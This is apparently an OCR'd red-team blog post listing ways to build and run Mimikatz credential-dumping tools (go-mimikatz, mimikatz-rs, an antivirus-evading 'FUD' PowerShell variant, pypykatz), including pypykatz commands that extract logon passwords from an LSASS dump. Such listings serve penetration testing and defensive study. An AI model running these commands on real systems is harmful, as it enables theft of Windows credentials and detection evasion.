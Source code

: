 ```yaml
---
layout: post
title:  "64 Methods For Execute Mimikatz(RTC0003)"
author: redteamrecipe
categories: [ tutorial ]
tags: [red, blue]
image: assets/images/11.jpg
description: "50 Methods For Dump Lsass"
featured: true
hidden: true
rating: 4.5
---
```



## 64 Methods for Execute Mimikatz


### go-mimikatz

```
go build
./go-mimikatz
```


https://github.com/vyrus001/go-mimikatz



### Rusty Mimikatz

```
cargo build --release
./target/release/mimikatz-rs
```


https://github.com/memN0ps/mimikatz-rs


### MimikatzFUD

```
.\Invoke-M1m1fud2.ps1
```


https://github.com/HernanRodriguez1/MimikatzFUD


### pypykatz

```
pip install -r requirements.txt
python pypykatz.py
python pypykatz.py lsa minidump -d ./lsass.dmp sekurlsa::logonpasswords
python pypykatz.py wmi "SELECT * FROM Win32_Process WHERE Name='lsass.exe'" sekurlsa::logonpasswords
```
